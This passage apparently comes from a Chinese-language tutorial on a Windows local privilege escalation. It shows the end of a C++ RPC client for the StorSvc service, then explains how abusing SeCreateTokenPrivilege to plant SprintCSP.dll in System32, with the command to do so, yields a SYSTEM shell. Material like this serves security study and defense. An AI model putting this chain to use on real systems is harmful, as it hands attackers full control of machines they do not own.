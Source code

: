 ```c++
        else
            wprintf(L"[!] Manual reboot of StorSvc service is required.");
    }
    RpcExcept(EXCEPTION_EXECUTE_HANDLER);
    {
        wprintf(L"[-] Exception: %d - 0x%08x.\r\n", RpcExceptionCode(), RpcExceptionCode());
    }
    RpcEndExcept
    {
        RpcBindingFree(&hBinding);
    }

}

void __RPC_FAR* __RPC_USER midl_user_allocate(size_t cBytes)
{
    return((void __RPC_FAR*) malloc(cBytes));
}

void __RPC_USER midl_user_free(void __RPC_FAR* p)
{
    free(p);
}
```

首先通过 SeCreateTokenPrivilege 特权将生成的 SprintCSP.dll 写入 C:\\Windows\\System32 目录，然后直接运行 RpcClient.exe 即可获取一个 SYSTEM 权限的交互式命令行，如下图所示。

```console
SeCreateTokenPrivilege.exe -s SprintCSP.dll -d C:\Windows\System32\SprintCSP.dll
```

![Animation](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-fc0fa61c58b87b14cedd2a3368074999d334dad0.gif)